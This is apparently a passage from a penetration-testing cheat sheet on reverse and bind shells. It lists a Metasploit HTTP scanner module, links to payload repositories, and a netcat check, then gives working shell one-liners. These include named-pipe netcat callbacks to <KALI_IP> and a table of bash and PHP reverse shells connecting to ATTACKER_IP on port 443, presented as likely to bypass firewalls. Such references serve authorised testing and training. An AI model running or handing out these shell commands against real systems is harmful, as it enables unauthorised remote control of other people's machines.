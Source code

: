 ```bash
# HTTP Options
auxiliary/scanner/http/http_options
```

## 🐚 Reverse & Bind Shells

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

### 💻 Shell One-Liners

- RECOMMENDED: 53, 80, 139, 443, 445 or 8080
    - Target -> Attacker (**callback**)
    - likely to bypass firewalls
    - `sudo` is required for ports <1024

```bash
# Check if a flavor of netcat exists
{ command -v nc && command -v netcat && command -v ncat ; } 2>/dev/null ; if command -v busybox >/dev/null; then busybox nc -h 2>/dev/null | head -n 1 && echo "'busybox nc' exists."; fi
```
#### 📞 Reverse Shells

##### 👂 Local: LISTENER

```bash
rlwrap nc -vnlp <PORT>
```

##### 📞 Target: CALLBACK

```bash
# Reverse shell using a named pipe (fifo)
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <KALI_IP> <PORT> > /tmp/f
```

#### 🔗 Forward Shells

##### 🔗 Target: BIND

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 <PORT> > /tmp/f
```

##### 🔗 Target: CONNECT

```bash
nc -nv <TARGET> <PORT>
```

#### 🐚 Other Shells to port 443

| Language/Tool      | Command                                                                                                                                                                                                                       | Description                                                                                            |
| :----------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :----------------------------------------------------------------------------------------------------- |
| **Bash**           |                                                                                                                                                                                                                               |                                                                                                        |
| Bash               | `bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'`                                                                                                                                                                          | The most common interactive bash reverse shell. Redirects standard output and error over a TCP socket. |
| Bash               | `exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 \| while read line; do $line 2>&5 >&5; done`                                                                                                                                       | Creates a new file descriptor (5) for the TCP socket and executes commands received in a loop.         |
| Bash               | `0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196`                                                                                                                                                            | Uses a specific file descriptor (196) to manage the I/O for the reverse shell connection.              |
| Bash               | `bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5`                                                                                                                                                                         | Creates an interactive shell and redirects stdin, stdout, and stderr through file descriptor 5.        |
| **PHP**            |                                                                                                                                                                                                                               |                                                                                                        |
| PHP (`exec`)       | `php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'`                                                                                                                                                        | Opens a TCP socket and uses the `exec()` function to execute a shell.                                  |